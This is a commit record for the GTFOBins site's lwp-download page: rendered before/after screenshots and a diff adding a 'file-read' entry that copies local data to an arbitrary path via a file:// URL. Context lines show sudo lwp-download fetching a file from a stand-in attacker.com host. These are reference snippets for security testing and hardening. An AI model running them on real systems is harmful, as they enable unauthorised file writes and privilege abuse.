

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/lwp-download.md, in a window 1280 px wide. Shown: the whole page at 86% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 979 px from its top, so only the background shows below that.

Commit message:
Update lwp-download.md
add file-read

```diff
--- a/_gtfobins/lwp-download.md
+++ b/_gtfobins/lwp-download.md
@@ -16,4 +16,11 @@ functions:
         URL=http://attacker.com/file_to_get
         LFILE=file_to_save
         sudo lwp-download $URL $LFILE
+  file-read:
+    - description: The file path must be absolute.
+      code: |
+        echo "DATA-TO-WRITE" > /tmp/data
+        INPUT=/tmp/data
+        LFILE=file_to_write_absolute_path
+        lwp-download file://$INPUT $LFILE
 ---
```
